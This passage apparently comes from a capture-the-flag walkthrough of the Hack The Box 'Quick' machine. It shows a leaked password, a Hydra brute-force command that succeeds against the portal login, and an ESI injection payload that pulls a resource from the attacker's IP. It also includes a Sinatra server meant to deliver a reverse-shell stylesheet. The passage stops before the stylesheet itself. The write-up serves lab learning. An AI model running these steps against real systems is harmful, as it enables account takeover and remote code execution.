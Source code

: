 ```bash
curl --http3 https://portal.quick.htb/docs/QuickStart.pdf -O QuickStart.pdf
curl --http3 https://portal.quick.htb/docs/Connectivity.pdf -O Connectivity.pdf
```

* Password found in `Connectivity.pdf`: `Quick4cc3$$`

---

## Login Bruteforce

Users list (`users.txt`):

```
john@quick.htb
jane@quick.htb
mike@quick.htb
tim@qconsulting.co.uk
roy@darkwingsolutions.com
elisa@wink.co.uk
james@lazycoop.cn
```

Password list (`passwd.txt`):

```
Quick4cc3$$
```

Run **Hydra**:

```bash
hydra -L users.txt -P passwd.txt -s 9001 quick.htb http-post-form "/login.php:email=^USER^&password=^PASS^:Invalid"
```

**Result:**

```
[9001][http-post-form] host: quick.htb   login: elisa@wink.co.uk   password: Quick4cc3$$
```

* Login successful → portal has search and ticket creation functionality.

---

## ESI Injection – RCE

* `X-Powered-By: Esigate` → vulnerable to ESI injection
* Payload:

```xml
<esi:include src="http://10.10.14.25/test" />
```

* Serve XSL stylesheet with reverse shell via Sinatra:

```ruby
require 'sinatra'
get '/*' do
  File.read('test.xsl')
end
```
